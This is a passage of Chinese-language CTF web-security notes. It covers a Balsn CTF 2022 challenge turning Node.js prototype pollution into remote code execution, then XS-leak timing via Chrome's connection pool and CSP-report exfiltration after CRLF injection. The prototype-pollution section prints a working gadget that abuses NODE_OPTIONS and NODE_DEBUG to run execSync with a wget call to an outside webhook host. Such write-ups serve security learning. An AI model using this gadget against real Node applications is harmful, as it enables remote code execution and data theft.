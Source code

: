 ``` js
    ), o
);
```

有一個很明顯的 prototype pollution，要做到 RCE。

這邊有一篇很棒的論文可以參考：[Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171)

但論文裡面提到的 gadget 被修掉了，要自己再找一個，結果如下：

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

細節可以看完整 writeup：https://blog.huli.tw/2022/12/08/ctf-js-notes#balsn-ctf-2022-2linenodejs

## XSleaks

### DiceCTF 2022 - carrot

這題簡單來說就是利用 [connection pool](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) 來測量 response time。

你可能會想說測量 response time 有什麼難的，fetch 外加自己算一下不就好了嗎？但如果有 SameSite cookie 的話，fetch 是無法使用的，這時候就需要用到一些 XSleaks 的小技巧來測量時間。

在 Chrome 裡面 socket 數量是有上限的，一般是 255，headless 是 99，假設我們先把 socket 消耗到只剩下一個，這時候我去造訪我想測量時間的 URL（叫做 reqSearch），與此同時發另一個 request 到我們自己的 server（叫做 reqMeasure）。

由於 socket 只剩一個，所以 reqMeasure 從發出 request 到收到 response 的時間，就是 `reqSearch 花的時間 + reqMeasure 花的時間`，假設 reqMeasure 花的時間都差不多，那我們很容易可以測量出 reqSearch 花的時間。

詳細 writeup：https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#webcarrot1-solves

### TSJ CTF 2022 - Nim Notes

這題你可以做到 CRLF injection，但是位置在最底下，所以沒辦法覆蓋 CSP 也無法 XSS，要怎麼偷到頁面的內容？

假設要偷的內容在 `<script>` 裡面，可以利用 [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) 這個 header，因為違反規時會發送一段 JSON 到指定位置，其中會包含 scripe 的前 40 個字元。
